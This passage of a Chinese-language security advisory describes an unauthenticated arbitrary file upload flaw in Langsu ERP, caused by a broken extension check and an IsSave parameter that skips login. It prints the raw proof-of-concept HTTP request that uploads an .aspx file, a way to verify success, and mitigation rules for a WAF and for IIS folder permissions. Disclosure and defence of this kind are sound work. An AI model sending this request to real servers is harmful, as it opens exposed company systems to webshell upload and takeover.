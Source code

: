 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1JSNicEVqJosEDBy3VElWTNezWx0pxlnVuPe8nxnZhcFqEfSPb0Y4wr6HUHGtFnXMfxLEgPp447JKw/640?wx_fmt=png&from=appmsg "")  
1. **文件类型无校验**  
  
代码中尝试检查.dll  
扩展名（但存在拼写错误Filelnfo  
），实际未生效，导致允许上传任意文件类型。  
  
1. **权限绕过**  
IsSave=true  
参数未验证用户身份，攻击者无需登录即可触发上传逻辑。  
  
#### 四、漏洞复现（POC原文未改动）  
  
**攻击步骤**  
：  
1. **构造恶意请求上传木马文件**  
（原始POC未修改）：  
```
POST /WebDwgDefault.aspx?IsSave=true&FileName=test.asp HTTP/1.1Host: ip:portX-Requested-With: XMLHttpRequestUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36Accept: application/json, text/javascript, */*; q=0.01Content-Type: multipart/form-data; boundary=----123Content-Length: 331------123Content-Disposition: form-data; name="file"; filename="1.aspx"<% Response.Write("hello world")%>------123--
```  
  
  
1. **访问上传文件验证漏洞**  
：  
  
访问 http://目标网站/test.asp  
，若页面返回hello world  
，则漏洞利用成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1JSNicEVqJosEDBy3VElWTNerWIQic0Y91gm9ia9sYySnK9mPDicn4BgE1xfRVqCPJsiatA7mk7FsvwgRw/640?wx_fmt=png&from=appmsg "")  
#### 五、影响范围  
  
所有使用朗速ERP系统且未修复漏洞的企业，包括：  
- 制造业、供应链等依赖ERP系统的企业  
  
- 公网暴露的朗速ERP服务器（FOFA已发现数百台受影响资产）  
  
#### 六、紧急修复方案  
  
**临时处置措施**  
：  
1. **拦截恶意请求**  
  
在WAF/防火墙中添加规则，阻断包含IsSave=true  
参数的请求：  
```
if ($args ~* "IsSave=true") { return 403; }
```  
  
  
1. **限制服务器目录权限**  
  
禁止网站目录执行脚本（以IIS为例）：  
```
icacls "C:\inetpub\wwwroot\uploads" /deny IIS_IUSRS:(M)
```  
  